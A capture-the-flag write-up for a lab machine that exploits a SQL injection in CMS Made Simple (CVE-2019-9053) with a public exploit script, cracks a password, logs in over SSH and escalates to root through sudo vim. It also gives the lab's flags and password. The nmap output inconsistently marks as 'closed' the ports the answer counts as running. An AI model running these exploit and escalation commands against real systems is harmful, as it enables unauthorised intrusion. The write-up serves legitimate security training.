 # SimpleCTF

## #1 How many services are running under port 1000?
Save ip as a variable
```
export ip=<ip>
```

Run Nmap scan to scan the host for open ports
```
nmap $ip
21/tcp   closed ftp
80/tcp   closed http
2222/tcp closed EtherNetIP-1
```
2
## #2 What is running on the higher port?
```
nmap -p2222 -sV -sC $ip

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```
SSH

## #3 What's the CVE you're using against the application?
CMS Made Simple version 2.2.8
CVE-2019-9053

## #4 To what kind of vulnerability is the application vulnerable?
SQLi

## #5 What's the password?
Search for exploit using searchsploit
```
searchsploit cms made simple
```

Copying the exploit file to folder
```
searchsploit -m php/webapps/46635.py
```

Using the exploit to get username and password
```
python 46635.py -u http://$ip/simple -c -w /opt/rockyou.txt
```
Result:
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

## #6 Where can you login with the details obtained?
Connect to SSH
```
ssh mitch@$ip -p 2222
```

## #7 What's the user flag?
```
cd
cat user.txt
```
`
G00d j0b, keep up!
`
## #8 Is there any other user in the home directory? What's its name?
Start with stabelising the shell
```
python -c "import pty; pty.spawn('/bin/bash')" 
```
ls the user folders
```
cd
cd ..
ls
mitch  sunbath
```

## #9 What can you leverage to spawn a privileged shell?
List out what we can do
```
sudo -l
```
We can use vim as root without using the password
```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

Get root by using vim.
```
sudo vim -c ':!/bin/sh'
```

Stabelice the shell after getting root
```
python -c "import pty; pty.spawn('/bin/bash')"
```

## #10 What's the root flag?
```
cat /root/root.txt
```
W3ll d0n3. You made it!
